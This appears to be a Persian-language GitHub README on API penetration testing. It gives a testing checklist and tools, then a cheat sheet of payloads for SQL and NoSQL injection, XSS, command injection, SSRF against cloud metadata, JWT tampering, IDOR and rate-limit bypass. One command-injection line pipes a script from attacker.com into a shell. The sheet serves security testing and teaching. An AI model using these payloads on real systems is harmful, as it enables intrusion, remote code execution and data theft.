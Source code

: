 # api


مراحل کلی تست نفوذ API
شناسایی و مستندسازی API

پیدا کردن endpointها با استفاده از:

مستندات رسمی (Swagger, Postman)

ابزارهای تست (Burp Suite, OWASP ZAP)

فایل‌های لو رفته (swagger.json, openapi.json)

Reverse Engineering اپلیکیشن یا PWA

شناسایی متدها (GET, POST, PUT, DELETE, PATCH) و پارامترها.

بررسی احراز هویت و مجوز (Auth & Access Control)

تست توکن‌ها (JWT, API Key)

تست Broken Authentication (ورود بدون رمز، JWT بدون امضا)

تست Broken Access Control (IDOR: تغییر user_id و دسترسی به داده دیگران)

تست اعتبارسنجی ورودی‌ها

بررسی ورودی‌ها برای XSS، SQLi، NoSQLi، Command Injection، SSRF.

استفاده از payload های مناسب هر آسیب‌پذیری.

تست منطق بیزینسی (Logical flaws)

دور زدن محدودیت‌ها (Rate Limit Bypass، تغییر قیمت کالا، دوبار انجام تراکنش)

تست ترتیب درخواست‌ها (Race Conditions)

تست امنیت انتقال داده‌ها

اطمینان از استفاده از HTTPS

بررسی برای Sensitive Data Exposure

ابزارهای مفید

Postman / Insomnia (برای درخواست‌های دستی)

Burp Suite / OWASP ZAP (برای رهگیری و تزریق)

ffuf / wfuzz (برای brute-force روی پارامترها و endpointها)

nuclei (برای اسکن خودکار API)


======================================================================


نمونه پیلودها برای تست نفوذ API
1. SQL Injection

```
' OR 1=1 --
" OR "1"="1
1') UNION SELECT null,null,null--
```
نمونه تست در پارامتر:

```
POST /api/user
{"id": "' OR 1=1 --"}
```

2. NoSQL Injection (MongoDB)

```
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$gt": ""}, "password": {"$gt": ""}}
```

4. XSS (برای APIهایی که خروجی HTML دارند)

```
<script>alert(1)</script>
"><img src=x onerror=alert(1)>
```

4. Command Injection

```
; cat /etc/passwd
&& ping -c 1 attacker.com
| curl http://attacker.com/shell.sh | sh
```

5. SSRF

```
{"url": "http://127.0.0.1:8080/admin"}
{"url": "file:///etc/passwd"}
{"url": "http://169.254.169.254/latest/meta-data/"} // AWS metadata
```

6. JWT Manipulation
حذف امضا یا تغییر الگوریتم:

```
{"alg": "none", "typ": "JWT"}
```
تغییر payload:

```
{"role": "admin"}
```

7. IDOR (Insecure Direct Object Reference)
تغییر شناسه در URL یا Body:

```
GET /api/user/123
GET /api/user/124   // باید داده کاربر دیگر نمایش داده نشود
```

8. Rate Limit Bypass
ارسال تعداد زیادی درخواست پشت سر هم با:

```
ffuf -u https://target/api/send_otp -w phone_numbers.txt
```

=================================================================
